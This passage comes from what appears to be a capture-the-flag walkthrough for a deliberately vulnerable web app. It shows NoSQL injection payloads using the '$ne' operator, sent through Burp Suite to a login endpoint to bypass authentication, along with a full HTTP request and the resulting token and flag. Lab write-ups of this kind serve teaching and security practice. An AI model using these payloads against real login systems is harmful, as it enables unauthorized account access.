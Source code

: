 2. **Navigate** to the login page and turn on intercept

3. **First Attempt - Basic NoSQL Injection:**
   - In the browser, attempt to login (any credentials)
   - Intercept the POST request to `/auth/login`
   - Modify the request body to:
   ```json
   {
     "username": {"$ne": null},
     "password": {"$ne": null}
   }
   ```
   - **Forward** the request
   - **Response:** You'll get a hint suggesting to target Dio specifically

4. **Second Attempt - Targeted NoSQL Injection:**
   - Intercept another login request
   - Modify the request to target Dio:
   ```json
   {
     "username": "Dio",
     "password": {"$ne": null}
   }
   ```
   - **Forward** the request

5. **Success!** The response contains:
   - **Dio's JWT Token:** `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...`
   - **XSS Key:** `DioBrandoSecretKey2025`
   - **User data:** Including Dio's role and user ID

#### 🚩 **Flag 3:** `XSS Key acquired: DioBrandoSecretKey2025`

**Burp Suite Request Example:**
```http
POST /auth/login HTTP/1.1
Host: coffee-apd9gkgqg5h9fqa5.southindia-01.azurewebsites.net
Content-Type: application/json
Content-Length: 60

{"username":"Dio","password":{"$ne":null}}
```

**Learning Points:**
- NoSQL injection bypasses authentication by manipulating query operators
- `$ne` (not equal) operator returns true for any value
- Application stores passwords in plain text (another vulnerability!)
- Special keys/secrets can be exposed through API responses

---

### **Step 4: JWT Token Acquisition** 🎫

**Objective:** Obtain a valid JWT token for further exploitation.
